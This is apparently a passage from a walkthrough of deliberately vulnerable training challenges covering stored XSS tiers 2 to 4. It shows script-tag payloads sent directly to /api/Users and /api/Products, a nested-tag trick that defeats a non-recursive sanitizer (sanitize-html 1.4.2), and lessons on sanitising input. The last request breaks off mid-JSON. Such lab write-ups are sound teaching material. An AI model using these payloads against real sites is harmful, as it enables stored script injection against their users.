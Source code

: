### Solution

Add a new user with a POST to /api/Users and
```json
{"email": "<script>alert(\"XSS2\")</script>", "password":""}
```
as a JSON object.

### Explanation

The email address is checked on the client side using JavaScript. There is no further check on the server side. By addressing the API directly, client side protection can be circumvented.

### Lessons learned

- Sanitize both input and output.
- Always sanitize data where it is transferred to one's own area of responsibility.
- Never rely on filter mechanisms that can be potentially changed or circumvented.



## 8: "XSS Tier 3: Perform a persisted XSS attack with <script>alert("XSS3")</script> bypassing a server-side security mechanism."

### Solution

Post
```html
<<script>alert("XSS3")</script>script>alert("XSS3")<</script>/script>
```
as feedback.


### Explanation

A legacy library (sanitize-html 1.4.2) is used on the server that is responsible for sanitizing. The version used is vulnerable to masking attacks because no recursive sanitizing takes place.



### Lessons learned

Always use updated libraries
Regularly update libraries to avoid know vulnerabilities being exploited



## 9: "XSS Tier 4: Perform a persisted XSS attack with <script>alert("XSS4")</script> without
     using the frontend application at all."

### Solution

```
PUT /api/Products/9 HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 108

{
 "id":9,
 "name":"",
 "description":
 "<script>alert(\"XSS4\")</script>",
```